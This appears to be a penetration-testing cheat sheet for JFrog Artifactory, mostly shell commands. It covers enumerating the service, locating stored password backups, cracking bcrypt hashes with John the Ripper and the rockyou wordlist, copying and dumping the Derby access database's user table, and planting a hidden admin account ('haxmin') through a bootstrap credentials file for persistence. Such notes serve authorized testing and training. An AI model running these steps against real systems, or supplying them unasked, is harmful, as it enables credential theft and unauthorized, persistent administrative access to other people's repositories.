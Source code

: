```yaml
---
description: binary repository manager
---
```


# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
